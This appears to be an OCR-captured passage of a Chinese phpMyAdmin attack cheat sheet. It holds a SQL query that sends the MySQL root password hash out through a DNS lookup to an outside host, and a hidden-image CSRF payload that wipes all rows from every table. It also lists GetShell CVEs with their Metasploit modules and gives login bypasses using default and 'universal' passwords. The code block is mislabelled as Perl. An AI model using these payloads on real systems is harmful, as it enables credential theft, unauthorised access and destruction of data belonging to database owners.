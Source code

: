 ```perl

SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE
user='root' LIMIT 1),'.vulnspy.com\\test'));

# Exploit CSRF - Empty All Rows From All Tables

<p>Hello World</p>
<img src="
http://7f366ec1afc5832757a402b5355132d0.vsplate.me/import.php?db=mysql&table=user&sql_query=DROP+PROCEDURE+IF+EXISTS+EMPT%3B%0ADELIMITER+%24%24%0A++++CREATE+PROCEDURE+EMPT%28%29%0A++++BEGIN%0A++++++++DECLARE+i+INT%3B%0A++++++++SET+i+%3D+0%3B%0A++++++++WHILE+i+%3C+100+DO%0A++++++++++++SET+%40del+%3D+%28SELECT+CONCAT%28%27DELETE+FROM+%27%2CTABLE_SCHEMA%2C%27.%27%2CTABLE_NAME%29+FROM+information_schema.TABLES+WHERE+TABLE_SCHEMA+NOT+LIKE+%27%25_schema%27+and+TABLE_SCHEMA%21%3D%27mysql%27+LIMIT+i%2C1%29%3B%0A++++++++++++PREPARE+STMT+FROM+%40del%3B%0A++++++++++++EXECUTE+stmt%3B%0A++++++++++++SET+i+%3D+i+%2B1%3B%0A++++++++END+WHILE%3B%0A++++END+%24%24%0ADELIMITER+%3B%0A%0ACALL+EMPT%28%29%3B%0A"
style="display:none;" />
```

[CVE-2017-1000499](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-1000499)



# 4特殊版本GetShell



## 4.1 CVE-2013-3238

>  影响版本：3.5.x < 3.5.8.1 and 4.0.0 < 4.0.0-rc3 ANYUN.ORG
>
>  利用模块：exploit/multi/http/phpmyadminpregreplace



## 4.2 CVE-2012-5159

>  影响版本：phpMyAdmin v3.5.2.2
>
>  利用模块：exploit/multi/http/phpmyadmin3522_backdoor



## 4.3 CVE-2009-1151

>  PhpMyAdmin配置文件/config/config.inc.php存在命令执行
>
>  影响版本：2.11.x < 2.11.9.5 and 3.x < 3.1.3.1
>
>  利用模块：exploit/unix/webapp/phpmyadmin_config



## 4.4 弱口令&万能密码

>  弱口令：版本phpmyadmin2.11.9.2， 直接root用户登陆，无需密码
>
>  万能密码：版本2.11.3 / 2.11.4，用户名'localhost'@'@"则登录成功
